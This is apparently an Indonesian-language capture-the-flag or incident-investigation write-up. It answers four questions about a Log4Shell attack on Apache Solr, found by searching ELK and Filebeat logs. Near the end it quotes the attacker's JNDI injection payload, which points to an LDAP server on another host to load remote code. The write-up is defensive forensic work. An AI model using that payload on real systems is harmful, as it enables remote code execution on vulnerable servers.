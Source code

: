 <br><br>
21 . What is the entire log file path of the "solr" application?
<br><br>
Kami kembali menelusuri dari ketiga data traffice tersebut. lalu kami menemukan field yang tersedia yaitu "process.parent.args". disini kami tampak samar melihat adanya "-Xloggc:/var/solr/logs/solr_gc.log".
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183132395-b8d759a3-3d85-44b8-84d2-eecf0bd9d8ce.png">
<br><br>
dan sampai kami menemukan tulisan pada suatu website yang menjelaskan struktur dari log solr. kami pun langsung menyimpulkan bahwa lokasi log dari solr tersebut adalah /var/solr/logs/solr.log
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183132146-87025191-36e6-4aa6-a538-1c77ad33f12e.png">
<br><br>
22. What is the path that is vulnerable to log4j?
<br><br>
disini kami mencoba menggunakan parameter command umum yang digunakan attacker dalam menjalan log4shell "${jndi:ldap://". Namun disini kami tidak menemukan apa apa. sehingga kami pun memutar otak dan kami menemukan postingan https://i-3.co.id/monitor-infrastruktur-it-anda-secara-real-time-dengan-elk-stack/. pada postingan tersebut dijelaskan bahwa data pada indeks log merupakan hasil parsing dari data yang berasal dari index fileabet. dimana singkatnya filebeat merupakan index yang menimpan data mentah sebelum di parsing. sehingga kami mencoba mencari menggunakan parameter awal. dan benar kami menemukan sesuatu seperti pada gambar.
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183141371-012f6e30-b9d8-4a12-959f-e80a1841ddcb.png">
<br><br>
Berdasarkan gambar diasas path yang terindikasi memiliki vuln terhadap log4j adalah /admin/cores
<br><br>
23.What is the GET request parameter used to deliver log4j payload?
<br><br>
melalui parameter "${jndi:ldap://", kami juga menemukan request get yang dipakai pada payload log4j tersebut. dimana attacke berusaha melakukan proses request get pada foo.
<br><br>
<img src="https://user-images.githubusercontent.com/43168046/183142283-16e5313c-7b42-4208-af0a-764c212edf24.png">
<br><br>
24. What is the JNDI payload that is connected to the LDAP port?
<br><br>
berdasarkan pertanyaan sebelumnya dapat kita ketahui, payload dari log4j tersebut adalah : " {foo=${jndi:ldap://192.168.1.10:1389/Exploit}} "
</p>